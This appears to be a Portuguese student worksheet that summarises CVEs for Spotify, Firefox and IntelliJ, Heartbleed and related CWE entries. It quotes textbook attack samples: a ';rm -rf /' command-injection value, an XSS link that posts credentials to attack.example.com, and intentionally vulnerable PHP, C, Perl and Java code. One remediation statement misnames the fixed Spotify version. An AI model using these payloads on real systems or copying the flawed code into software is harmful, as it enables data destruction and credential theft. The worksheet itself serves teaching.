Vulnerabilidades e Exposições Comuns (CVE)
==========================================

# Exercício 1

Para cada uma das seguintes aplicações encontram-se descritos 2 **CVE** bem como qual o **CWE** relativo à vulnerabilidade:

## Spotify 

Versão Instalada: 1.1.44.538.g8057de92  

### 1ª Vulnerabilidade ###  

**CVE-2018-1167**  

Esta vulnerabilidade permite a atacantes remotos a execução de código arbitrário em instalações do Spotify Music Player 1.0.69.336. É necessária interação do utilizador para explorar esta vulnerabilidade, sendo que o alvo tem que visitar uma página maliciosa ou abrir um ficheiro malicioso. A falha específica existe dentro do processamento dos *URI handlers*. O problema resulta da falta de validação em condições de uma string fornecida pelo utilizador antes de a usar para executar uma *system call*. Um atacante pode aproveitar-se desta vulnerabilidade para executar código sob o contexto do processo atual.

{ width=40% }

Analisando o resultado CVSS desta vulnerabilidade, vemos que numa escala de 0 a 10 obteve uma classificação de 8.8. Isto indica-nos que estamos perante uma vulnerabilidade de grau elevado.  

As classificações elevadas nos parâmetros da Confidencialidade, Integridade e Disponibilidade devem-se a problemas como a execução de código arbitrário, ataques de *Denial of Service*, leitura/modificação de Ficheiros e Diretorias, e leitura/modificação de dados de aplicações.  

Atualizar para a **versão 1.0.69.336 elimina esta vulnerabilidade**.  

\pagebreak

**CWE-78**  

**Nome:** Neutralização Imprópria de Elementos Especiais usados num comando de Sistema Operativo ('OS Command Injection').  

**Descrição:** O software constrói a totalidade ou parte de um comando de sistema operativo usando um *input* externamente influenciado de uma componente *upstream*, mas não neutraliza (ou neutraliza incorretamente) elementos especiais que poderiam modificar o comando do sistema operativo quando é enviado para a componente *downstream*.  

**Funcionamento**: Utilizando o seguinte exemplo em PHP é possível verificar que com o *input* certo, somos capazes de fazer danos significativos.

```php
    $userName = $_POST["user"];
    $command = 'ls -l /home/' . $userName;
    system($command);
```

Sendo que a variável **$userName** não verificada em busca de um *input* malicioso, um atacante poderia usar a variável com o seguinte valor:

```bash
    ;rm -rf /
```

Que por sua vez iria fazer com que a variável **$command** ficasse com o seguinte valor:

```bash
    ls -l /home/;rm -rf /
```

Neste caso, o resultado seria que após correr o comando **ls**, iria ser corrido um comando que **apagaria o sistema de ficheiros da máquina**.  

\pagebreak

### 2ª Vulnerabilidade ### 

**CVE-2017-17750**

Com esta vulnerabilidade, dispositivos Bose SoundTouch permitem *XSS* via uma playlist pública do Spotify. Esta vulnerabilidade afeta tanto a versão Android como a versão iOS. Resumidamente, podemos reproduzir uma *playlist* pública qualquer no Spotify e partilhá-la publicamente. Quando alguém reproduzir a nossa *playlist* com dispositivos conectados, conseguimos roubar os *tokens Oauth* das suas contas Amazon Music, iTunes, Pandora e Spotify.

{ width=40% }

Analisando o resultado CVSS desta vulnerabilidade, vemos que numa escala de 0 a 10 obteve uma classificação de 5.4. Isto indica-nos que estamos perante uma vulnerabilidade de grau médio.  

As classificações baixas nos parâmetros da Confidencialidade e Integridade devem-se ao facto de o acesso a informação ser limitado e ao facto de apesar de ser possível modificar alguns dados, estas alterações são limitadas. A Disponibilidade não é posta em causa.

Não existem informações acerca de medidas a tomar contra esta vulnerabilidade.

**CWE-79**  

**Nome:** Neutralização Imprópria do *Input* Durante a Geração de Páginas Web ('Cross-site Scripting').  

**Descrição:** O software não neutraliza (ou neutraliza incorretamente) *inputs* controlados pelo utilizador antes de ser colocado no *output* que é usado como página web que é servida a outros utilizadores.  

**Funcionamento**: Utilizando o seguinte exemplo em PHP é possível verificar que com o *input* certo, somos capazes de fazer danos significativos.

```php
    $username = $_GET['username'];
    echo '<div class="header"> Welcome, ' . $username . '</div>';
```

Sendo que a variável **$userName** não verificada em busca de um *input* malicioso, um atacante poderia o seguinte link para redirecionar um utilizador:

```
    http://trustedSite.example.com/welcome.php?username=<div 
    id="stealPassword">Please Login:<form name="input" 
    action="http://attack.example.com/stealPassword.php" 
    method="post">Username: <input type="text" name="username"/>
    <br/>Password: <input type="password" name="password" />
    <br/><input type="submit" value="Login" /></form></div>
```

Um utilizador ao clicar neste *link*, será redirecionado para uma página com o seguinte conteúdo:

```html
    <div class="header"> Welcome, <div id="stealPassword"> Please Login:
        <form name="input" action="attack.example.com/stealPassword.php" 
        method="post">
            Username: <input type="text" name="username" /><br/>
            Password: <input type="password" name="password" /><br/>
            <input type="submit" value="Login" />
        </form>
    </div></div>
```

Neste caso, o resultado seria que após **efetuar login numa página com código malicioso**, as **credenciais de acesso do utilizador serão submetidas para o atacante**.  


## Firefox 

Versão Instalada: 82.0  

### 1ª Vulnerabilidade ### 

**CVE-2020-6831**

Esta vulnerabilidade permite que um *buffer overflow* possa ocorrer quando é efetuado o *parsing* e validação de *chunks STCP* na WebRTC(framework de comunicação em tempo real usada pelo browser). Isto poderia levar à corrupção da memória e um potencial *crash* da máquina. Esta vulnerabilidade afeta as versões do **Firefox ESR < 68.8, Firefox < 76, e Thunderbird < 68.8.0**.

{ width=40% }

Analisando o resultado CVSS desta vulnerabilidade, vemos que numa escala de 0 a 10 obteve uma classificação de 9.8. Isto indica-nos que estamos perante uma vulnerabilidade crítica.  

As classificações elevadas nos parâmetros da Confidencialidade, Integridade e Disponibilidade devem-se a problemas como a execução de código arbitrário. A Disponibilidade sofre também problemas como *crash's* e execução de *loops* infinitos.  

Não existem informações acerca de medidas a tomar contra esta vulnerabilidade.

**CWE-120**

**Nome:** Cópia de *Buffer* sem Verificação do Tamanho do *Input* ('Classic Buffer Overflow').  

**Descrição:** O programa copia o *input buffer* para um *output buffer* sem verificar se o tamanho do *input buffer* é menor que p tamanho do *output buffer*, levando a um *buffer overflow*. Algumas das principais linguagens onde é possível que ocorra são: **C**, **C++** e **Assembly**.

**Funcionamento**: Utilizando o seguinte exemplo em C é possível verificar que com o *input* certo, somos capazes de comprometer o programa.

```C
    char last_name[20];
    printf ("Enter your last name: ");
    scanf ("%s", last_name);
```

O problema com este excerto de código passa pelas situações em que o **input** do utilizador excede o tamanho do **buffer** para ele alocado, levando a diversos problemas.  

### 2ª Vulnerabilidade ### 

**CVE-2020-6826**

Esta vulnerabilidade foi reportada por desenvolvedores da Mozilla que encontraram *bugs* de segurança na memória presentes no **Firefox 74**. Alguns desses *bugs* mostravam indícios de corrupção de memória, sendo que existe com algum esforço poderiam ser utilizados para correr código arbitrário. Esta vulnerabilidade **afeta as versões Firefox < 75**.  

{ width=40% }

Analisando o resultado CVSS desta vulnerabilidade, vemos que numa escala de 0 a 10 obteve uma classificação de 9.8. Isto indica-nos que estamos perante uma vulnerabilidade crítica. 

As classificações elevadas nos parâmetros da Confidencialidade, Integridade e Disponibilidade devem-se ao facto de esta vulnerabilidade permitir que seja executado código não autorizado e que seja modificada a memória. A Confidencialidade sofre também pela possibilidade de serem feitas leituras de memória. A Disponibilidade por sua vez também sofre com a possibilidade de ataques de *Denial of Service* como *crash*'s da máquina, consumos de recursos da máquina, entre outros.

Atualizar para a **versão 75.0 elimina esta vulnerabilidade**.  

**CWE-119**  

**Nome:** Restrição Imprópria de Operações dentro dos Limites de um *Buffer* de Memória.

**Descrição:** O *software* executa operações num *buffer* de memória, mas consegue ler ou escrever num local de memória que está fora do espaço previsto para o *buffer*. Algumas das principais linguagens onde é possível que ocorra são: **C**, **C++** e **Assembly**.

**Funcionamento**: Utilizando o seguinte exemplo em C é possível verificar que o endereço IP é verificado em relação a estar bem formado, procurando de seguida o *hostname*, copiando-o para um *buffer*. No entanto não temos garantias de que o *hostname* não tenha mais que 64 *bytes*.  

```C
    void host_lookup(char *user_supplied_addr){
        struct hostent *hp;
        in_addr_t *addr;
        char hostname[64];
        in_addr_t inet_addr(const char *cp);

        validate_addr_form(user_supplied_addr);
        addr = inet_addr(user_supplied_addr);
        hp = gethostbyaddr( addr, sizeof(struct in_addr), AF_INET);
        strcpy(hostname, hp->h_name);
    }
```

Se um atacante fornecer um endereço que retorne um *hostname* maior que 64 *bytes*, é possível escrever sobre informação sensível bem como dar controlo ao possível atacante.  

## IntelliJ  

Versão Instalada: IntelliJ IDEA 2020.1.1 (Ultimate Edition)  

### 1ª Vulnerabilidade ###

**CVE-2020-7905**  

Esta vulnerabilidade consiste em portas que estavam a ser escutadas por **versões do JetBrains IntelliJ IDEA < 2019.3** e que estavam expostas para a rede.

{ width=40% }

Analisando o resultado CVSS desta vulnerabilidade, vemos que numa escala de 0 a 10 obteve uma classificação de 7.5. Isto indica-nos que estamos perante uma vulnerabilidade de grau elevado. 

As classificações nulas nos parâmetros da Integridade e Disponibilidade devem-se ao facto de esta vulnerabilidade não por em causa esses dois aspetos. No entanto, a Confidencialidade tem uma classificação elevada porque esta vulnerabilidade permite que sejam lidos dados da aplicação.

Atualizar para a **versão 2019.3 elimina esta vulnerabilidade**. 

**CWE-200**  

**Nome:** Exposição de Informação Sensível para um Ator Não Autorizado.  

**Descrição:** O produto em questão expões informação sensível para um ator que não é explicitamente autorizado a ter acesso a essa mesma informação.  

**Funcionamento**: Utilizando o seguinte exemplo em Perl é possível verificar se o *username* ou *password* estão incorretos.  

```Perl
    my $username=param('username');
    my $password=param('password');

    if (IsValidUsername($username) == 1){
        if (IsValidPassword($username, $password) == 1){
            print "Login Successful";
        } else {
            print "Login Failed - incorrect password";
        }
    } else {
        print "Login Failed - unknown username";
    }
```

Neste exemplo podemos ver que para cada caso é dada uma resposta diferente. Apesar de ser útil para um utilizador, esta informação também é útil para um potencial atacante, que por sua vez pode ser capaz de compreender o estado da função. Deste modo, ao tentar diferentes combinações de password, um atacante poderia efetuar tentativas até chegar a um *username* válido, obtendo assim metade das credenciais necessárias para efetuar *login*. A prática correta seria mostrar uma mensagem que indique que a *password* e o *username* estão incorretos.  

### 2ª Vulnerabilidade ###  

**CVE-2020-11690**  

Esta vulnerabilidade permitia que em **versões do JetBrains IntelliJ IDEA < 2020.1** o servidor de licenças fosse resolvido para um *host* não confiável em alguns casos.  

{ width=40% }

Analisando o resultado CVSS desta vulnerabilidade, vemos que numa escala de 0 a 10 obteve uma classificação de 9.8. Isto indica-nos que estamos perante uma vulnerabilidade crítica. 

As classificações elevadas nos parâmetros da Confiança, Integridade e Disponibilidade devem-se ao facto de um atacante ao conseguir contornar o mecanismo de licensas possa ter acesso total ao *software* conseguindo assim ver/alterar informações e impedir o normal funcionamento do mesmo.

Atualizar para a **versão 2020.1 elimina esta vulnerabilidade**.  

# Exercício 2

A vulnerabilidade identificada por **CVE-2014-0160** é também conhecida como ***Heartbleed Bug***. Esta vulnerabilidade grave existente no OpenSSL permite que informação protegida pela encriptação SSL/TLS seja roubada. 

O ***Heartbleed Bug*** permite que qualquer pessoa na Internet consiga ler a memória de sistemas protegidos pelas versões vulneráveis do OpenSSL. Este *bug* compromete as chaves secretas utilizadas para identificar os fornecedores de serviço e para encriptar tráfego, nomes e *passwords* de utilizadores bem como o conteúdo. Isto permite que um atacante possa intercetar comunicações e roubar dados de serviços e utilizadores bem como fazer-se passar por serviços/utilizadores. Além de ser possível um atacante roubar informações como *usernames*, *passwords*, *emails*, mensagens, certificados e chaves, este tipo de ataques em concreto podem ser feitos sem que sejam deixados indícios de que o mesmo tenha acontecido.  

**Versões Afetadas**  

* Versões 1.0.1 até 1.0.1f(inclusive) do OpenSSL **estão vulneráveis**
* Versões 1.0.1g ou mais recentes do OpenSSL **não estão vulneráveis**
* Versões 1.0.0 do OpenSSL **não estão vulneráveis**
* Versões 0.9.8 do OpenSSL **não estão vulneráveis**

**Alguns Sistemas Operativos Afetados**  

* Debian Wheezy (stable) (OpenSSL 1.0.1e-2+deb7u4)
* Ubuntu 12.04.4 LTS (OpenSSL 1.0.1-4ubuntu5.11)
* CentOS 6.5 (OpenSSL 1.0.1e-15)
* Fedora 18 (OpenSSL 1.0.1e-4)
* OpenBSD 5.3 (OpenSSL 1.0.1c) e 5.4 (OpenSSL 1.0.1c)
* FreeBSD 10.0 (OpenSSL 1.0.1e)
* NetBSD 5.0.2 (OpenSSL 1.0.1e)
* OpenSUSE 12.2 (OpenSSL 1.0.1c)  

{ width=40% }

**Vetor de Ataque**  

O vetor de ataque desta vulnerabilidade é via rede, isto é, um ataque efetuado usando esta vulnerabilidade pode ser executado remotamente através da rede, não tendo de partilhar nenhum espaço físico.

**Exploits Existentes**  

Efetuando uma pesquisa na plataforma **exploit-db** 4 *exploits*:

* [Exploit 1](https://www.exploit-db.com/exploits/32745)
* [Exploit 2](https://www.exploit-db.com/exploits/32764)
* [Exploit 3](https://www.exploit-db.com/exploits/32791)
* [Exploit 4](https://www.exploit-db.com/exploits/32998)


**Impacto**  

{ width=40% }

Como podemos ver pelas Métricas de Impacto, a Integridade e Disponibilidade do componente afetado não são afetadas. No entanto, a nível da Confidencialidade, o impacto é elevado. Isto porque o tipo de informação obtida é extremamente sensível.  

**Soluções**  

Para a resolução do problema podem ser seguidas várias opções, sendo que a recomendada passa por atualizar para a versão 1.0.1g ou mais recente. Caso esta atualização não seja possível, programadores podem resolver o problema ao recompilar o OpenSSL com a opção ```-DOPENSSL_NO_HEARTBEATS```.  

# Exercício 3

Após consultar o relatório **MFSA 2020-39** foram escolhidas as seguintes vulnerabilidades:

**CVE-2020-15671**

Esta vulnerabilidade permitia que sob certas condições, ao introduzir uma *password*, poderiam existir casos em que o *InputContext* nas estaria a ser definido corretamente para o campo de *input*, fazendo com que a *password* inserida fosse guardada no dicionário do teclado. Esta vulnerabilidade afeta as **versões do Firefox < 80 para Android**.

{ width=40% }

Analisando a pontuação CVSS desta vulnerabilidade, vemos que temos uma pontuação de 3.1, sendo que é considerada uma vulnerabilidade de nível baixo. No entanto existem alguns riscos. Apesar de a complexidade para executar o ataque ser elevada, existe uma potencial perda de alguma Confidencialidade, isto porque as *passwords* poderão ficar comprometidas. O vetor de ataque desta vulnerabilidade é através da rede, e, para a execução deste *exploit* é necessária a interação de utilizadores, não sendo necessários privilégios.  

\pagebreak

**CVE-2020-15670**  

Esta vulnerabilidade consiste em alguns *bugs* de segurança presentes em **versões do Firefox para Android 79**, em que esses bugs exibiam sinais de corrupção de memória que com o esforço suficiente poderiam ser utilizados para conseguir correr código arbitrário. Esta vulnerabilidade afetas as **versões Firefox < 80, Firefox ESR < 78.2, Thunderbird < 78.2, e Firefox para Android < 80**.

{ width=40% }

Analisando a pontuação CVSS desta vulnerabilidade, vemos que temos uma pontuação de 8.8, sendo que é considerada uma vulnerabilidade de nível elevado. Esta vulnerabilidade por sua vez também possui um vetor de ataque através da rede, sendo que neste caso a complexidade de ataque é baixa, isto é, não são necessárias condições especiais para que o atacante consiga repetidamente obter sucesso. Relativamente ao impacto, é dada uma classificação elevada à Confidencialidade, Integridade e Disponibilidade devido ao facto de ao conseguir corromper a memória, um atacante poderá "*crashar*" o sistema, bem como, executar código arbitrário, podendo dar o controlo do sistema ao atacante.  

**CVE-2020-15664**  

Ao manter uma referência para a função eval() a partir de uma janela *about:blank*, uma página web maliciosa poderia ter acesso ao objeto *InstallTrigger* que lhe permitiria pedir a instalação de uma extensão. Um utilizador mais confuso, em conjunto com esta vulnerabilidade  poderia resultar na instalação de uma extensão maliciosa ou indesejada. Esta vulnerabilidade afeta as **versões Firefox < 80, Thunderbird < 78.2, Thunderbird < 68.12, Firefox ESR < 68.12, Firefox ESR < 78.2, e Firefox para Android < 80**.  

{ width=40% }

Analisando a pontuação CVSS desta vulnerabilidade, vemos que temos uma pontuação de 6.5, sendo que é considerada uma vulnerabilidade de nível médio. Esta vulnerabilidade por sua vez também possui um vetor de ataque através da rede, sendo que neste caso a complexidade de ataque é baixa, isto é, não são necessárias condições especiais para que o atacante consiga repetidamente obter sucesso. Além disso, um atacante não necessita de privilégios especiais, mas, necessita de interação por parte do utilizador para ter sucesso. Relativamente ao impacto, é dada uma classificação nula à Confidencialidade e Disponibilidade, visto que não são divulgadas informações e que o funcionamento não é posto em causa, no entanto, a Integridade é quem sofre, sendo que tem uma classificação elevada. Esta classificação elevada deve-se ao facto de esta vulnerabilidade colocar em causa confiança dos dados do sistema, que neste caso acontece no momento da instalação de uma extensão maliciosa/indesejada.  

# Exercício 4

Após ser efetuada uma pesquisa na página do **MITRE**, mais concretamente na categoria de problemas relacionados com a **Integridade de Dados** durante o **Desenvolvimento de Software**, foram escolhidos os seguintes problemas:  

**CWE-347**  

**Nome:** Verificação Imprópria da Assinatura Criptográfica  

**Descrição:** Este problema consiste no facto de o software não efetuar, ou efetuar incorretamente a assinatura criptográfica de dados. Não existe uma dependência de linguagem para que o problema ocorra, sendo que este é um problema resultante de má implementação. As principais consequências que este problema pode provocar, passam pela possibilidade de conseguir alterar dados de uma aplicação, pela obtenção de privilégios indesejados dentro do sistema, ou mesmo pela execução de comandos ou código indesejado.

**Exemplo**: Neste exemplo é demonstrada a criação de um objeto *JarFile* que é criado a partir de um ficheiro descarregado de uma fonte desconhecida, sendo que não é feita qualquer verificação da sua assinatura.  

```java
    File f = new File(downloadedFilePath);
    JarFile jf = new JarFile(f);
```
Neste caso concreto, uma boa prática seria usar um construtor que nos permitisse utilizar uma variável para a verificação da assinatura. Um bom exemplo seria retorna uma variável booleana. Deste modo conseguiríamos filtrar objetos indesejados.

**CWE-322**  

**Nome:** Troca de Chaves sem Autenticação de Entidades  

**Descrição:** Este problema consiste no facto de o software efetuar uma troca com um ator sem verificar a identidade do mesmo. Efetuar a troca de chave preserva a integridade da informação enviada entre duas entidades, no entanto não nos permite aferir a autenticidade da identidade. Isto cria uma janela em que um atacante poderá fazer-se passar por um ator do sistema e alterar o tráfego entre entidades. Geralmente, isto acontece quando um cliente contacta um servidor malicioso que se faz passar por um servidor confiável. No caso de o cliente saltar a autenticação ou ignorar potenciais erros de autenticação, o servidor em questão poderá requisitar informações de autenticação ao utilizador. Esta informação pode depois ser usada pelo servidor malicioso para efetuar *login* no servidor confiado usando as credenciais da vítima, conseguindo visualizar o tráfego entre a vítima e servidor confiado. Esta questão geralmente surge devido a falhas no desenho e implementação do sistema incluindo mecanismos de verificação de todas as entidades envolvidas em comunicações encriptadas.

\pagebreak

# Fontes

Para a realização desta ficha foram consultadas diversas plataformas recomendadas bem como algumas adicionais, tendo sido utilizadas as seguintes fontes:

https://nvd.nist.gov/vuln/detail/CVE-2018-1167  
https://nvd.nist.gov/vuln/detail/CVE-2017-17750  
https://nvd.nist.gov/vuln/detail/CVE-2020-6831  
https://nvd.nist.gov/vuln/detail/CVE-2020-6826  
https://nvd.nist.gov/vuln/detail/CVE-2020-7905  
https://nvd.nist.gov/vuln/detail/CVE-2020-11690  
https://nvd.nist.gov/vuln/detail/CVE-2014-0160  
https://nvd.nist.gov/vuln/detail/CVE-2020-15671  
https://nvd.nist.gov/vuln/detail/CVE-2020-15670  
https://nvd.nist.gov/vuln/detail/CVE-2020-15664

http://cwe.mitre.org/data/definitions/78.html  
http://cwe.mitre.org/data/definitions/79.html  
http://cwe.mitre.org/data/definitions/120.html  
http://cwe.mitre.org/data/definitions/119.html  
http://cwe.mitre.org/data/definitions/200.html  
http://cwe.mitre.org/data/definitions/763.html  

https://vuldb.com/?id.116925  
https://vuldb.com/?id.114977  
https://vuldb.com/?id.155609  
https://vuldb.com/?id.154367  
https://vuldb.com/?id.149564  

https://blog.jetbrains.com/blog/2020/04/22/jetbrains-security-bulletin-q1-2020/  
https://heartbleed.com/  

https://www.exploit-db.com/  
https://www.exploit-db.com/exploits/32745  
https://www.exploit-db.com/exploits/32764  
https://www.exploit-db.com/exploits/32791  
https://www.exploit-db.com/exploits/32998  

https://cwe.mitre.org/data/definitions/699.html  
https://cwe.mitre.org/data/definitions/1214.html  
https://cwe.mitre.org/data/definitions/347.html  
https://cwe.mitre.org/data/definitions/322.html  